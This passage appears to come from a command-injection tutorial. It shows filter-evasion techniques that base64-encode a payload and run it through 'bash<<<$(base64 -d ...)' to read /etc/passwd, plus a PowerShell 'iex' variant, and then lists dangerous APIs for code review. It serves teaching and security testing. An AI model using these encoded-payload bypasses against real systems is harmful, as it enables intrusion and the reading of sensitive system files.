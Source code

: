 
### Encoded commands

We can utilize various encoding tools, like `base64` (for b64 encoding) or `xxd` (for hex encoding). Let's take `base64` as an example. First, we'll encode the payload we want to execute (which includes filtered characters):

```bash
echo -n 'cat /etc/passwd | grep 33' | base64
# Output: Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

# Now we can create a command that will decode the encoded string in a sub-shell ($()), and then pass it to bash to be executed (i.e. bash<<<), as follows:
# Tip: Note that we are using <<< to avoid using a pipe |, which is a filtered character.
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
# Output: 
# www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
```

We use the same technique with Windows as well. First, we need to base64 encode our string, as follows:

```powershell
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
```

We may also achieve the same thing on Linux, but we would have to convert the string from `utf-8` to `utf-16` before we `base64` it, as follows:

```bash
echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```

Finally, we can decode the b64 string and execute it with a PowerShell sub-shell (`iex "$()"`), as follows:

```powershell
 iex "$([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String('dwBoAG8AYQBtAGkA')))"
```

In addition to the techniques we discussed, we can utilize numerous other methods, like wildcards, regex, output redirection, integer expansion, and many others. We can find some such techniques on [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-with-variable-expansion).

## Code Review Dangerous API 

Be aware of the uses of following API as it may introduce the command injection risks. 

### Java

```
Runtime.exec()
```

### C/C++ 
